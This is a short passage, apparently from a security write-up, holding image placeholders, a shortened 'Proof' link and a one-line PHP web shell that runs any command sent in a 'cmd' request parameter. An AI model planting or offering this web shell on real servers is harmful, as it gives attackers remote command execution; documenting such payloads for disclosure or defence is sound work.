 Done!

Proof: http://goo.gl/ZqPVL
```

![](images/15.png)

```php
<?php echo system($_REQUEST['cmd']); ?>
```

![](images/16.png)
